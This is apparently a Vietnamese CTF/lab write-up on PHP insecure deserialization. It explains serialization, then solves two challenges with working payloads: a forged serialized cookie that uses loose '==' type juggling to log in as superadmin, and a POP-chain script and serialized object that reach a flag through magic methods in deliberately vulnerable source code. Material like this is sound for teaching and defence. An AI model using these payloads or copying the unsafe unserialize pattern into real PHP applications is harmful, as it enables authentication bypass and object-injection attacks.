

# Insecure Deserialization

# Tổng quan

Serialization là quá trình chuyển đổi đối tượng hoặc dữ liệu thành định dạng khác ( gọi là serialized data) để dễ dàng lưu trữ và truyền tải.

Deserialization là quá trình ngược lại với serialization, từ serialized data khôi phục lại đối tượng hoặc cấu trúc dữ liệu ban đầu.

Insecure Deserialization là một lỗ hổng bảo mật xảy ra khi dữ liệu đã được serialize có thể bị kẻ tấn công kiểm soát. Khi ứng dụng tiến hành deserialize dữ liệu này mà không có kiểm tra hoặc xác thực an toàn, attacker có thể chèn payload độc hại vào, từ đó thực thi mã tùy ý, thay đổi logic của chương trình

## Root Cause

Attacker kiểm soát được dữ liệu khi unserialize

## Impact

Thay đổi logic hoạt động của chương trình ( thay đổi thuộc tính, class)

Tạo ra luồng mới của chương trình ( tận dụng magic method, POP Chain)

→ Tùy vào logic và các class có sẵn  mà có các ảnh hưởng khác nhau

# LAB

## **PHP - Serialization**



Đăng nhập thử với tài khoản guest ( option autologin)


Cookie được set thành 1 chuỗi lưu tên đăng nhập và mật khẩu


Đoán được đây là serialized data của php.

Sửa username thành superadmin, nhưng vấn đề ở đây là mật khẩu.


PHP có hai loại so sánh:

- `==`: so sánh **lỏng lẻo**, PHP sẽ **ép kiểu** nếu hai vế khác kiểu.
- `===`: so sánh **nghiêm ngặt**, yêu cầu cùng **kiểu dữ liệu và giá trị**.

Ví dụ: 

```php
if (true == "any_string") // true
if (false == 0)           // true
if (1 == "1abc")          // true
if ("0e123" == "0e456")   // true, vì cả 2 bị ép kiểu thành số mũ 0 (=> 0)
```

Trong code của ứng dụng, dùng so sánh `==` , nên ta có thể bypass bằng cách so sánh chuỗi  với giá trị boolean 

`if (true == '84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec')`

PHP sẽ ép kiểu `string` thành boolean true 

⇒ `if (true == true)` ⇒ true

Payload: `a:2:{s:5:"login";s:10:"superadmin";s:8:"password";b:1;}` (encode url)

## **PHP - Unserialize Pop Chain**


Src code:

```php
<?php

$getflag = false;

class GetMessage {
    function __construct($receive) {
        if ($receive === "HelloBooooooy") {
            die("[FRIEND]: Ahahah you get fooled by my security my friend!<br>");
        } else {
            $this->receive = $receive;
        }
    }

    function __toString() {
        return $this->receive;
    }

    function __destruct() {
        global $getflag;
        if ($this->receive !== "HelloBooooooy") {
            die("[FRIEND]: Hm.. you don't seem to be the friend I was waiting for..<br>");
        } else {
            if ($getflag) {
                include("flag.php");
                echo "[FRIEND]: Oh ! Hi! Let me show you my secret: ".$FLAG."<br>";
            }
        }
    }
}

class WakyWaky {
    function __wakeup() {
        echo "[YOU]: ".$this->msg."<br>";
    }

    function __toString() {
        global $getflag;
        $getflag = true;
        return (new GetMessage($this->msg))->receive;
    }
}

if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
}

if (isset($_POST["data"]) && !empty($_POST["data"])) {
    unserialize($_POST["data"]);
}

?>
```

Flag nằm trong magic method `__destruct()` của class `GetMessage`
Muốn lấy được flag, phải thỏa **2 điều kiện:**

- Biến `$getflag` phải bằng `True`.
    - Biến này chỉ được set `True` khi hàm `__toString()` của class `WakyWaky` được gọi.
    - Mà `__toString()` sẽ được gọi khi object `WakyWaky` được dùng như 1 chuỗi.
    - `echo "[YOU]: ".$this->msg."<br>";`trong hàm `__wakeup`  sẽ gọi toString
- Biến `$receive` phải có giá trị = `"HelloBooooooy"`
    - Nếu gán `"HelloBooooooy"` ngay khi tạo object, thì `__construct()` của `GetMessage`sẽ check và `die` chương trình.
    - Nên giá trị `"HelloBooooooy"` chỉ có thể gán **sau khi object khởi tạo xong**

Script: 

```php
<?php
class GetMessage {
    public $receive;
    function __construct($receive) {
            $this->receive = $receive;
        }
    }

class WakyWaky {
    public $msg;
    function __construct($msg) {
            $this->msg = $msg;
        }
    }

$gmsg = new GetMessage('HelloBooooooy');
    
$waky1 = new WakyWaky($gmsg);
$waky2 = new WakyWaky($waky1);

echo serialize($waky2);
?>
```

`unserialize()` sẽ gọi `__wakeup()` của object `WakyWaky`.

Trong `__wakeup()`, code sẽ `echo "[YOU]: ".$this->msg;`→ PHP buộc phải ép `$this->msg` thành string.

`$this->msg` chính là `$waky1` — một object `WakyWaky`→ PHP gọi `__toString()` của `WakyWaky` → **set `$getflag = true`**.

Khi `__toString()` chạy, trong đó:

```php
return (new GetMessage($this->msg))->receive;
```

Tạo ra 1 object `GetMessage` với `$this->msg` (lúc này chính là `$gmsg`) truyền vào, nếu `$this->msg` là `GetMessage` chứa `'HelloBooooooy'` (object→ qua luôn.

Sau khi unserialize xong, PHP sẽ gọi `__destruct()` của `GetMessage`: nếu `$getflag == true` và `$receive == "HelloBooooooy"` → **flag được in ra**.

Serialized data:

```php
O:8:"WakyWaky":1:{s:3:"msg";O:8:"WakyWaky":1:{s:3:"msg";O:10:"GetMessage":1:{s:7:"receive";s:13:"HelloBooooooy";}}}
```

